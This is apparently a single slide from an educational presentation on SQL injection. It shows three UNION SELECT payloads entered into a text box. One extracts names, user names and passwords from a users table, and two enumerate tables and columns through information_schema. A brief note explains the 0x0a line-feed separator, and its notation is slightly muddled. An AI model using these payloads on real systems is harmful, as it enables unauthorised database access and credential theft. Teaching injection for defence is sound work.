

SQL Injection
What if we put other data in the textbox that allows us to do more queries?
%' and 1=0 union select null,
	concat(first_name,0x0a,last_name,0x0a,user,0x0a,password)
	from users #

%' and 1=0 union select null, table_name from information_schema.tables #

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users’ #

0x0a is hexidecimal.
0x0a16 = 1010.
Decimal 10 in ASCII is “LF” or “Line Feed”